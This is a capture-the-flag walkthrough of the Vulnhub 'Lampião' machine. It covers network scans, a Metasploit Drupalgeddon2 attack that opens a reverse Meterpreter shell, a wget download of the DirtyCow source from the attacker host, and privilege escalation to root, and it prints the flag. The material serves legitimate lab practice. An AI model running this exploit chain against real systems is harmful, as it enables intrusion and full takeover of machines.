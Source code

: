 # Lampiao Vulnhub Writeup

Link:           [Lampião: 1 by Tiago Tavares](https://www.vulnhub.com/entry/lampiao-1,249/)

* Details:        Boot2Root Virtual Machine
* Author Rating:  Easy
* Flag Count:     1
* Flag Location:  /root/flag.txt
* Flag Contents:  9740616875908d91ddcdaa8aea3af366

## Runsheet

Located the Virtual Machine's IP;

```bash
arp-scan 192.168.146.0/24
```

Nmap Host to identify open ports on the machine and attempt to identify the host operating system;

```bash
nmap -sV -O 192.168.146.132
```

I found 2 open ports on that virtual machine; 22, and 80 using the NMAP scan, 80 led me nowhere other than learning swear words in porchagese. So I used a more verbose full scan of the machine.

```bash
nmap -p 1-65535 -T4 -A -v 192.168.146.132
```

This listed a new port; Port 1898, which, when navigated to on a web browser, shows us a drupal blog. Doing some dirb and checks for common files reveals that this is Version is 7.5.4, which is vulnrable to a CVE affectionatly called drupalgetton. This allows us to execute arbitrary code via remote code execution. Since I had no experence in Metasploit, I thought I would give it a shot.

```text
msf exploit(unix/webapp/drupal_drupalgeddon2) > use exploit/unix/webapp/drupal_drupalgeddon2
msf exploit(unix/webapp/drupal_drupalgeddon2) > set RHOST 192.168.146.132
RHOST => 192.168.146.132
msf exploit(unix/webapp/drupal_drupalgeddon2) > set RPORT 1898
RPORT => 1898
msf exploit(unix/webapp/drupal_drupalgeddon2) > exploit

[*] Started reverse TCP handler on 192.168.146.128:4444
[*] Drupal 7 targeted at http://192.168.146.132:1898/
[+] Drupal appears unpatched in CHANGELOG.txt
[*] Sending stage (37775 bytes) to 192.168.146.132
[*] Meterpreter session 2 opened (192.168.146.128:4444 -> 192.168.146.132:44260) at 2018-10-05 11:20:56 -0400
```

With this, we now had a low priv shell on the www-data user account. With this we could try to do some absic enumiration on the machine to gain some infomation on how we could exploit it. Using a common linux  privlage escalation checker, I identikfied that the kernal could be susseptable to the DirtyCow exploit. I verified if the OS was x32 or x64 bit, and downloaded the uncompiled expolit for the OS using Wget and attempted to get the flag before the OS Crashed again (DirtyCow is not a stable exploit).

```text
meterpreter > shell
Process 1420 created.
Channel 1 created.
wget http://192.168.146.128/cowrootx32.c

gcc cowrootx32.c -o cowroot -pthread
--2018-10-05 20:22:56--  http://192.168.146.128/cowrootx32.c
Connecting to 192.168.146.128:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4688 (4.6K) [text/x-csrc]
Saving to: 'cowrootx32.c.1'

     0K ....                                                  100%  853M=0s

2018-10-05 20:22:56 (853 MB/s) - 'cowrootx32.c.1' saved [4688/4688]

cowrootx32.c: In function 'procselfmemThread':
cowrootx32.c:99:9: warning: passing argument 2 of 'lseek' makes integer from pointer without a cast [enabled by default]
         lseek(f,map,SEEK_SET);
         ^
In file included from cowrootx32.c:27:0:
/usr/include/unistd.h:334:16: note: expected '__off_t' but argument is of type 'void *'
 extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
                ^
cowrootx32.c: In function 'main':
cowrootx32.c:142:5: warning: format '%d' expects argument of type 'int', but argument 2 has type '__off_t' [-Wformat=]
     printf("Size of binary: %d\n", st.st_size);
     ^
./cowroot
whoami
root
cat /root/flag.txt
9740616875908d91ddcdaa8aea3af366
```